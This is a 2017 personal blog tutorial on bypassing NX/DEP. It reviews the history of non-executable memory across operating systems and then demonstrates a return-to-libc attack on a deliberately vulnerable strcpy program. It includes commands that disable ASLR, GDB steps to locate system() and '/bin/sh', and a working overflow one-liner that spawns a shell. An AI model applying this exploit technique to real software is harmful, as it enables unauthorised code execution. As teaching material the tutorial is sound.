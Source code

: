 ```yaml
---
layout: post
title: Bypassing NX/DEP
date: 2017-10-02 21:28:16
description: Tutorial I go through bypassing NX/DEP and the history of this security mechanism.
tags: reverse engineering, pwn, x86, nx
categories: blog
---
```

![Ryoko vs Nagato](/assets/img/Ryoko_vs_Nagato.png "Ryoko vs Nagato"){:class="featured-image"}

Alright, SO! I've spent about 14hrs working on this tutorial with my Kali box, and kept getting different addresses for the dynamic libraries. Still haven't learned why this is, but I WILL find the solution for this.

---

## Abstract:

In this writeup, I'll be going over the mechanism that makes enables programs to not have an executable stack, the history of it, and how to bypass this.

---

## History

Starting in 1961, the Burroughs 5000 had hardware support to prevent the entire stack from being executable. They implemented a tagged architecture, which provides an extra bit per word to signify if the word is executable or not.

- [Burroughs Large Systems](https://en.wikipedia.org/wiki/Burroughs_large_systems#Tagged_architecture)
- [Tagged Architecture](https://en.wikipedia.org/wiki/Tagged_architecture)

---
![B5000](/assets/img/b5000.png "B5000"){:class="inline-image"}
Executive space protection has also been incorporated into operating system design to prevent code injection. Here are a few operating systems and when they implemented NX into their OS':

### Linux:
![linux](/assets/img/penguin.png "linux"){:class="centered-image"}
- Android 2.3 and later have NX pages by default.  
- Some modern Linux distros don't enable "HIGHMEM64" (a way to increase the usable address space) by default, which is required for NX in 32-bit mode. This is because it causes boot failures on pre-Pentium Pro and Celeron M processors without NX support.  
- Ubuntu has always had NX memory protection so long as there was hardware to support it as well. In a case where you don't have hardware to support it, Ubuntu's 32-bit kernels provide an approximation of the NX CPU feature via emulation.

### Mac OS:
For macOS, their Intel chips support the NX bit, though the version determines what areas have the feature to be or not to be executable. (s/o to Shakespeare xD)  
- Mac OS X 10.4 only supported NX on the stack, whereas Mac OS X 10.5's 64-bit executables have NX stack and heap protection.

### Windows:
It wasn't until:
- Windows XP SP2 (2004) and Windows Server 2003 SP1 (2005) that the NX features were first implemented on the x86 architecture.  
Microsoft defines areas in a program that are Non-Executable as "Data Execution Prevention" or DEP.  

However, there are a few clauses:  
1. Only critical Windows Services utilized DEP.  
2. These features were only turned on by default if the hardware supported the feature. If it didn't, no protection was given.  

These versions didn't have Address Space Layout Randomization (ASLR), which "randomly arranges the address space positions of key data areas of a process, including the base of the executable and the positions of the stack, heap, and libraries."  

Later versions like Windows Vista and Windows Server 2008 had both ASLR + DEP. For the 32-bit version of these systems, Microsoft added Physical Address Extension (PAE). 64-bit systems have ASLR + DEP natively.  

From version Vista on, users can determine whether DEP is enabled or disabled for a particular process in the **Processes** tab of the **Windows Task Manager**. Microsoft implements software DEP called "Safe Structured Exception Handling" (SafeSEH). When there's an attempt to execute code in an area that's not allowed, it checks the exception handler table and calls the correct exception for this incident.

---

## Time for the more fun part! Let's get exploiting!

This little `vuln.c` program takes the input from the argument, and then prints it.

Nothing too crazy here:

```c
#include <stdio.h>
#include <string.h>

int main (int argc, char** argv) {
    char buf[20];
    strcpy(buf, argv[1]);
    printf("%s\n", buf);
    return 0;
}
```
Before we compile this, we must turn off ASLR. By disabling ASLR, we can see the real physical addresses. Don't worry, I will have tutorials for defeating ASLR soon enough. ;)



## Disable ASLR
```bash
echo 0 > /proc/sys/kernel/randomize_va_space
cat /proc/sys/kernel/randomize_va_space
```

Now that we've disabled ASLR and verified it's off, let's compile the program and enable NX.

```bash
gcc -fno-stack-protector vuln.c -o vuln
execstack -c vuln
```

Perfect! Before we break this down with GDB, we gotta go over what's happening. When we execute, it grabs the dynamic libraries that are imported and all their functions and places them in memory (even the functions that aren't being used in the program).

This is important because the libc library also contains the function system(). The first argument of system() will execute a Linux command. We will be executing "/bin/sh" which will get us a shell. We also must find the string "/bin/sh" (which is also in libc). ;D

![nx-ex1](/assets/img/nx-ex1.png "nx-ex1")

## Breaking It Down in GDB
Sweet. So now let's set a breakpoint at main, and then find the address of the system() function.
```python
(gdb) break main
(gdb) run
(gdb) print system
(gdb) find &system, +99999999, "/bin/sh"
```
![nx-ex2](/assets/img/nx-ex2.png "nx-ex2")

Awesome!! So we have the address for system() → 0xb7e56190 && "/bin/sh" → 0xb7f76a24.

## Exploiting the Vulnerability
Now we have all our variables that we need. So to push our addresses onto the stack, we create a string that has:

1. 32 bytes of crap (A's),
2. then the address for system(),
3. then 4 bytes of crap again,
4. and then the string "/bin/sh".

```bash
./vuln $(python -c 'print "A"*32 + "\x90\x61\xe5\xb7" + "A"*4 + "\x24\x6a\xf7\xb7"')
```
![nx-ex3](/assets/img/nx-ex3.png "nx-ex3")

Who got shell? We got shell!!!!

## Additional Resources
- [Exploit Development: Stack Buffer Overflow Bypass NX/DEP](https://tehaurum.wordpress.com/2015/06/24/exploit-development-stack-buffer-overflow-bypass-nxdep/)
- [Executable Space Protection](https://en.wikipedia.org/wiki/Executable_space_protection#OS_implementations)
- [Another Bypassing NX Tutorial](https://sploitfun.wordpress.com/2015/05/08/bypassing-nx-bit-using-return-to-libc/)
- [What is the use of -fno-stack-protector?](https://stackoverflow.com/questions/10712972/what-is-the-use-of-fno-stack-protector)
- *Hacking: The Art of Exploitation* by Jon Erickson - [Buy on Amazon](https://www.amazon.com/Hacking-Art-Exploitation-Jon-Erickson/dp/1593271441)
- [lpr LIBC RETURN Exploit](http://insecure.org/sploits/linux.libc.return.lpr.sploit.html)
- [Microsoft's Implementation of NX (DEP)](https://msdn.microsoft.com/en-us/library/windows/desktop/aa366553(v=vs.85).aspx)
- [Detailed Description of the DEP Feature](https://support.microsoft.com/en-us/help/875352/a-detailed-description-of-the-data-execution-prevention-dep-feature-in)
- [ASLR on Address Space Layout Randomization](https://en.wikipedia.org/wiki/Address_space_layout_randomization)
- [Safe Structured Exception Handling (SafeSEH)](https://msdn.microsoft.com/en-us/library/windows/desktop/ms680657(v=vs.85).aspx)
- [Address Space](https://en.wikipedia.org/wiki/Address_space)
- [Dynamic Memory Allocation](https://en.wikipedia.org/wiki/Dynamic_memory_allocation)
- [Stack-based Memory Allocation](https://en.wikipedia.org/wiki/Stack-based_memory_allocation)
